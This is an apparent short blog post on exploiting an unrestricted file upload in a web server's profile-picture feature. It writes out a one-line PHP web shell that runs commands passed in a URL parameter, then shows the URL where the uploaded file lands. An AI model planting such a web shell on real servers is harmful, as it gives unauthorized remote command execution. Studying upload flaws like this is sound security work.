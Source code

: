 ```yaml
---
layout: post
title: unrestricted file upload
---
```

possible way to take advantage of an unrestricted file upload within a profile picture section in a web server

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```

copy image address results in the following url being copied to our clipboard: http://www.nop.cat/admin/ftp/objects/XXXXXXXXXXXX.php

![url to execute](https://github.com/nopcat/nopcat.github.io/blob/master/images/url.png "url to execute command in webserver")
